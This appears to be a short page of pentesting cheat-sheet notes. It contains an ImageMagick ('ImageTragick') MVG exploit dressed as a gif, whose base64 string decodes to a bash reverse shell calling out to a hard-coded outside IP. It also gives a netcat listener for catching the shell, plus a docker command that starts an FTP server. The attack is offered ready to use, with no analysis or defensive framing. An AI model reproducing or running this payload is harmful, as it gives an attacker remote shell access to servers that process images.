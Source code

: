 ![alt text](image.png)

```gif

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d; echo

# 443 best practice

# UPload file ans send it to pawned machine
nc -nlvp 4646

```

## Enumeración
### ftp 21
#### docker ftp server

```bash

docker run \
	--detach \
	--env FTP_PASS=123 \
	--env FTP_USER=user \
	--env PUBLIC_IP=192.168.0.1 \
	--name my-ftp-server \
	--publish 20-21:20-21/tcp \
	--publish 40000-40009:40000-40009/tcp \
	--volume /data:/home/user \
	garethflowers/ftp-server

```
